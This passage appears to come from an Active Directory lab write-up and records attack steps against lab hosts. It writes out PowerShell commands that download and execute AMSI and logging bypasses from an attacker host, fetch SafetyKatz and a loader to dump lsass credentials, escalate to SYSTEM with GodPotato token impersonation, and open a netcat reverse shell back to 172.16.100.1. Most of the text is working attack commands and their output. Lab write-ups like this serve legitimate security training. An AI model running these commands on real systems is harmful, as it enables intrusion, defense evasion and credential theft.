 ![HFS - Loader.exe, SafetyKatz.exe](learning_objective_07_hfs_loader_safetykatz.png)

`iex (iwr -UseBasicParsing http://172.16.100.1/sbloggingbypass.txt)`

`iex (iwr -UseBasicParsing http://172.16.100.1/amsibypass.txt)`

`iwr http://172.16.100.1/Loader.exe -OutFile C:\Users\Public\Loader.exe`

`iwr http://172.16.100.1/SafetyKatz.exe -OutFile C:\Users\Public\SafetyKatz.exe`

`C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe -args "sekurlsa::evasive-keys" "exit"`:
```
[+] Successfully unhooked ETW!
[+++] NTDLL.DLL IS UNHOOKED!
[+++] KERNEL32.DLL IS UNHOOKED!
[+++] KERNELBASE.DLL IS UNHOOKED!
[+++] ADVAPI32.DLL IS UNHOOKED!
[+] URL/PATH : C:\Users\Public\SafetyKatz.exe Arguments :

[X] Not in high integrity, unable to grab a handle to lsass!
```
❌

---

### Local Privilege Escalation | Token Impersonation Abuse (with GodPotato)

12) **Token Impersonation for ocal Privilege Escalation** (successful ✅)

Description: Leveraged `GodPotato`, a privilege escalation exploit that abuses **Named Pipe Token Impersonation**, to obtain **SYSTEM privileges** on `dbserver31.tech.finance.corp`. A reverse shell was established to maintain access and facilitate further post-exploitation activities.

`Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4\Full\' | Get-ItemPropertyValue -Name Version`:
```
4.7.03190
```

`iwr http://172.16.100.1/GodPotato-NET4.exe -OutFile C:\Users\Public\GodPotato-NET4.exe`

`iwr http://172.16.100.1/nc64.exe -OutFile C:\Users\Public\nc64.exe`

![studvm | studentuser $>](https://custom-icon-badges.demolab.com/badge/studvm-studentuser%20[%24>]-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\nc64.exe -lvp 1337`:
```
listening on [any] 1337 ...

[...]
```

![sqlserversync | dbserver31 $>](https://custom-icon-badges.demolab.com/badge/sqlserversync-dbserver31%20[%24>]-64b5f6?logo=windows11&logoColor=white)

`C:\Users\Public\GodPotato-NET4.exe -cmd "C:\Users\Public\nc64.exe -e C:\Windows\System32\cmd.exe 172.16.100.1 1337"`

